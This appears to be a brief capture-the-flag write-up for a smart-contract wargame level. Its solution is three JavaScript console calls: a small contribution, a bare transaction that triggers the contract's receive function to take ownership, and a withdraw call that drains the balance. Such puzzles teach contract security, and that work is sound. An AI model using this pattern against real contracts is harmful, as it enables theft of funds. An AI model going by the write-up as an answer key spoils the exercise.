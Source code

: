 # Logic
To complete you have to send a transaction without msg.data to call receive function

# Solution
```
await contract.contribute({value: 1})
await sendTransaction({value: 1, from: "<your_address>", to: "<contract_address>"})
await contract.withdraw()
```



